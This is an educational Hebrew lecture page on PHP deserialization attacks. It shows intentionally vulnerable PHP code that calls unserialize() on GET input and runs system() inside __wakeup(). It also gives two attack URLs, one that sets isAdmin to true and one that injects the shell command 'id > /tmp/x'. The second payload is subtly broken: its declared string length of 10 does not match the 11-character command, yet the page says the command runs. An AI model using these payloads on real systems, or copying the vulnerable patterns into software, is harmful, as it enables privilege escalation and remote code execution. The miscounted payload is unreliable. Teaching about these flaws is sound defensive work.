

repository: AmitPinchasi/amittech · page: מחקר-אתרים/5  - חולשות צד שרת/5.5 - חולשת deserialization attack/5.5 - חולשת deserialization attack - הרצאה/index.html · generator: mkdocs

# מתקפת Deserialization

## מבוא

חולשת Deserialization Attack היא מתקפה שבה תוקף מנצל תהליך של דיסריאלזציה (deserialization) של נתונים על מנת להריץ קוד זדוני או לשנות את ההתנהגות של האפליקציה. המתקפה נפוצה כאשר יישומים מקבלים קלט מהמשתמש, מסדרים אותו (serialize), ושומרים אותו או מעבירים אותו הלאה, ולאחר מכן מבצעים עליו ביטול סידור (deserialize) מבלי לוודא שהתוכן בטוח.

## **כיצד עובדת מתקפת Deserialization?**

בשפות תכנות רבות, כולל PHP, Python ו-Java, קיימת פונקציונליות המאפשרת להמיר אובייקטים למחרוזות (serialize) ולהמיר אותם חזרה לאובייקטים (deserialize). כאשר הקלט שמתקבל מהמשתמש עובר תהליך של דיסריאלזציה מבלי בדיקה מספקת, תוקף יכול לשלוח אובייקט זדוני ולגרום להרצת קוד על השרת.

## **דוגמאות למתקפה ב-PHP**

### **1. PHP - שימוש לא בטוח ב-unserialize()**

```php
<?php
class User {
    public $isAdmin = false;
}

if (isset($_GET['data'])) {
    $user = unserialize($_GET['data']);
    if ($user->isAdmin) {
        echo "You are an admin!";
    } else {
        echo "You are a regular user.";
    }
}
?>
```

📌 **הבעיה:** התוקף יכול לשלוח אובייקט סידורי מותאם אישית ולשנות את הערך `isAdmin` ל-`true`:

```
http://example.com/vuln.php?data=O:4:"User":1:{s:7:"isAdmin";b:1;}
```

📌 **התוצאה:** הגישה הופכת למנהל, למרות שהתוקף לא היה אמור להיות כזה!

### **2. הרצת קוד עם Magic Methods ב-PHP**

```php
<?php
class Evil {
    public $cmd;
    function __wakeup() {
        system($this->cmd);
    }
}

if (isset($_GET['data'])) {
    unserialize($_GET['data']);
}
?>
```

📌 **כיצד ניתן לתקוף?**

```
http://example.com/vuln.php?data=O:4:"Evil":1:{s:3:"cmd";s:10:"id > /tmp/x";}
```

📌 **התוצאה:** הפקודה `id > /tmp/x` תורץ על השרת!

🔴 **הסיבה לכך:**

- המתודה `__wakeup()` מופעלת אוטומטית בזמן הדיסריאלזציה.
    
- התוקף יכול להכניס פקודת מערכת דרך `$cmd` ולהריץ אותה.
